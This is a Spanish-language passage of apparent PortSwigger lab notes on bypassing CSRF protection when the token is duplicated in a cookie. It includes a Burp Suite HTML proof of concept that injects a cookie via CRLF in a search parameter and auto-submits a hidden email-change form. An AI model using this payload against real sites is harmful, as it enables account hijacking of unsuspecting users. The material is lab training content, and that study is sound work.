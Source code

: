 Laboratorio [aqu](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)í.

## CSRF token duplicado en la cookie.

Se puede dar el caso que el token aparezca duplicado en la cookie y en el parámetro de la petición, cuando la petición se envía, la validación que realiza es que tanto el token de la petición y la cookie sean el mismo, para testear esta vulnerabilidad se debe cambiar el valor del token y la cookie por otro pero que sea el mismo y realizar la petición, si se realiza con éxito es explotable.

Hay que encontrar una vía de inyectar la cookie en la sesión del cliente, en este ejemplo se inyecta a través del parámetro de búsqueda.

![image.png](image.png)

Poc:

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://URL-VULNERABLE/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="antu97@test.com" />
      <input type="hidden" name="csrf" value="fake" />
     <input type="submit" value="Submit request" />
    </form>
      <img src="https://0a480019035853b38352287c00700099.web-security-academy.net/?search=test4%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit()">
   
  </body>
</html>

```
